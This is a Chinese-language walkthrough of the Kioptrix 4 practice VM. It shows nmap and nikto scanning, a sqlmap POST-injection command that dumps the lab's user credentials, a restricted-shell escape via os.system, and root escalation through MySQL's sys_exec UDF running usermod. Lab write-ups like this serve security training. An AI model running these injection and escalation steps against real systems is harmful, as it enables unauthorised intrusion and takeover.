 # Kioptrix4通关笔记

`---从入门到入土`

## 安装完毕之后的第一步

开机后我们发现 这个用户名和密码是要我们爆破的
![](img/1.png)

在虚拟机中要先接入到和kali一个网段中。
然后我们要知道这个虚拟机的ip地址<br>

就要用到端口扫描。

---

## nmap的使用

```
 nmap -sP IP地址 /子网
 ```

 列：
 ```
 nmap -sP 192.168.17.0 /24
 ```
![](img/2.png)
可以发现网段中一共有4个ip地址，除去本机和kali剩下的就是`K4`的ip地址

## 扫描k4的所有开放端口

```
nmap IP
```
列：
```
nmap 192.168.17.130
```
![](img/3.png)
>从图中我们可以发现，打开了 80端口，我们就可以试试看上这个网址。

![](img/4.png)
__发现还挺憨憨的。__

这应该就是我们的注入页面了，尝试了盲注，跑sqlmap后我选择扫描一下这个网页有没有其他注入漏洞。



我们先查看一下网页的源代码：
![](img/5.png)
这里有可能存在post注入！尝试一下 
查看报错代码
使用`nikto`工具扫描
```
nikto -h http://192.168.17.130
```
列：
![](img/6.png)

![](img/7.png)

发现返回值中有post注入的可能！<br>
sqlmap跑一跑

## 神奇的sql注入！

代码：

```
sqlmap -u http://192.168.17.130/checklogin.php
--data="myusername=admin&mypassword=123&Submit=Login" -p mypassword --dump -T members -D members
```
![](img/8.png)

在选错一堆选项还查了不少字典之后终于跑出来了！

![](img/9.png)

```
 id | username | password              |
+----+----------+-----------------------+
| 1  | john     | MyNameIsJohn          |
| 2  | robert   | ADGAdsafdfwt4gadfga== |
```

## 尝试登陆

在K4中输入用户名和密码登陆进去看看有啥

![](img/10.png)
顺手查看一下权限和配置文件
这里用了echo命令获取交互shell,积累下来
```
echo   os.system("/bin/bash")
whoami 
ifconfig

```

![](img/11.png)

我们的目标是查看服务器下的文件。寻找我们注入的页面，说不定有结果哦！
```
cd /var/www/
cat checklogin.php
```
![](img/12.png)

里面有个ROOT用户名 ！！让我康康！！


我们进入这个ROOT用户

```
mysql -u root -p
```
![](img/13.png)

发现过于凄惨 
![](img/14.png)

权限连cd都没有
打扰了！

那就只能被迫给他提个权了<br>
发现root下面有个文件<br>
我们打开它试试看！
![](img/15.png)
我们还是没有root权限  whoami看看


在mysql中输入
```
use mysql

create function sys_exec returns integer soname 'lib_mysqludf_sys.so';

select sys_exec('id > /tmp/out; chown john.john /tmp/out');

```
![](img/16.png)



百度搜索 `mysql给用户提权`

```

use musql

select sys_exec('usermod -a -G admin ')
select sys_exec('usermod -a -G admin john');
```
![](img/17.png)
![](img/18.png)


在我们推出去后，尝试登陆到root
![](img/19.png)
询问权限后确认获取`root`
